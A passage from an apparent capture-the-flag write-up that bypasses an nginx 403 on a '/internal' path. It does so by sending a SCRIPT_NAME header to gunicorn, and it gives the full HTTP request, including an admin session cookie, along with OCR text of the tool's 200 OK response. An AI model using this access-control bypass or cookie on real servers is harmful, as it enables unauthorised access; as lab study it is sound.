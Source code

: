 
> Because this part is a little bit guessy so I will skipped some explanation here.

It appears that accessing the `/internal*` endpoint will result in a 403 Forbidden error. Since this website uses `gunicorn` and `nginx`, I found this [writeup](https://ctf.zeyu2001.com/2021/csaw-ctf-qualification-round-2021/gatekeeping). We can bypass it using `SCRIPT_NAME`, so the final payload will look like this

```
GET /test/internal/submissions HTTP/1.1
Host: thecybercoopctf-grayboard.chals.io
Cookie: session=eyJpZCI6MSwidHlwZSI6ImFkbWluIiwidXNlcm5hbWUiOiJhZG1pbiJ9.ZYEGzw.Npm8_EdpYT5BSQnWOejvMaiW5gA
Upgrade-Insecure-Requests: 1
SCRIPT_NAME: /test
```


[Image extracted text: Request
Response
Pretty
Raw
Hex
51
In
=
Pretty
Raw
Hex
Render
GET
Itest/internal/submissions HTTP/1.1
HTTP/1.1
200
OK
2
Host:
thecybercoopctf-grayboard. chals.io
2
Date:
Tue
19
Dec
2023
03:11:22
GMT
Cookie:
session=
3 Content-Type:
text/html;
charset-utf-8
eyJpZCI6MSwidHlwZSI6ImFkbWluliwidXNlcmShbWUioiJhZGlpbiJg
ZYEGZW.N
Content-Length:
49
pm8_EdpYTSBSQnWOejvMaiWSgA
5
Connection:
keep-alive
Upgrade-Insecure-Requests:
6
Server:
gunicorn/20 .0.4
5 SCRIPT_NAME
Itest
Vary: